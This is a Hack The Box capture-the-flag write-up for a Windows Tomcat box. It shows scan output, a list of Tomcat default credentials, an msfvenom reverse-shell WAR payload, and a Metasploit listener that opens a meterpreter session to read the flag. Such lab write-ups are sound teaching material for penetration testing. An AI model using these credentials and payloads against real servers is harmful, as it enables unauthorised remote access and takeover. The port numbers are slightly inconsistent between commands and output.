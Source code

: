 ```yaml
---
published: true
---
```

Hackthebox.eu virtual machine; Simple box, tomcat running as system with default credentials uploads malicious WAR file.

----------

Legal Usage:
*The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risks/responsibilities.*

----------
# Enumeration

Nmap

    # nmap -sC -sV -oA htb 10.10.10.95
    
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
- Discovered Apache Tomcat/7.0.88 on port 8080

Nikto

    # nikto -h 10.10.10.95:8080
    
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.95
    + Target Hostname:    10.10.10.95
    + Target Port:        8080
    ---------------------------------------------------------------------------
    + Server: Apache-Coyote/1.1
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
    + OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
    + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
    + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
    + /examples/servlets/index.html: Apache Tomcat default JSP pages present.
    + OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
- Discovered Apache Tomcat and JSP vulnerability
# Navigate to 10.10.10.95:8080
![8080.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/8080.jpg?raw=true)


“access: http://10.10.10.95:8080/manager/html "Manager App"
Username: tomcat
Password: s3cret

    list of Apache Default Credentials 
    Username Password
    admin     password
    admin     
    admin     Password1
    admin     password1
    admin     admin
    admin     tomcat
    both     tomcat
    manager manager
    role1     role1
    role1     tomcat
    role     changethis
    root     Password1
    root     changethis
    root     password
    root     password1
    root     r00t
    root     root
    root     toor
    tomcat     tomcat
    tomcat     s3cret
    tomcat     password1
    tomcat     password
    tomcat     
    tomcat     admin
    tomcat     changethis

source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

# Attack Vector

utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/war.jpg?raw=true)


Crafting WAR file:
tools: msfvenom

    msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of war file: 52304 bytes
    Saved as: war.war

extract file:

    jar -xvf war.war 
    created: META-INF/
    inflated: META-INF/MANIFEST.MF
    created: WEB-INF/
    inflated: WEB-INF/web.xml
    inflated: yewdmyrhyi.jsp
- Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.
# Setup Listener

tool: msf

    msfdb run
- quick way to start postgres and metasploit framework

after initilzation:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST LOCALIP
    set LPORT 9000
    exploit

Access: http://10.10.10.95/war/yewdmyrhyi.jsp

`- wait for reverse tcp connection
    [*] Started reverse TCP handler on 10.10.13.75:9002
    [*] Sending stage (179779 bytes) to 10.10.10.95
    [*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
    msf exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...
    
    meterpreter > dir
    
   Listing: C:\apache-tomcat-7.0.88
    ================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
    100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
    100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
    100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
    100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
    40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
    40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
    100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
    40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with meterpreter > cat "2 for the price of 1.txt"`

# Final Thoughts

As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.
-exec@will

# Further Learning/Sources:
- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)
